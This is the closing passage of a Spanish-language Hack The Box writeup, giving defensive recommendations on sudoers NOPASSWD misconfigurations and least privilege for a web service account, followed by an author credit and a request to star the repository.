- Auditar `sudoers`: nunca conceder `NOPASSWD` sobre rutas inexistentes ni sobre scripts ubicados en directorios escribibles por el usuario beneficiario.
- Aplicar el principio de **mínimo privilegio**: el servicio web debería ejecutarse bajo una cuenta sin acceso a comandos `sudo`.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
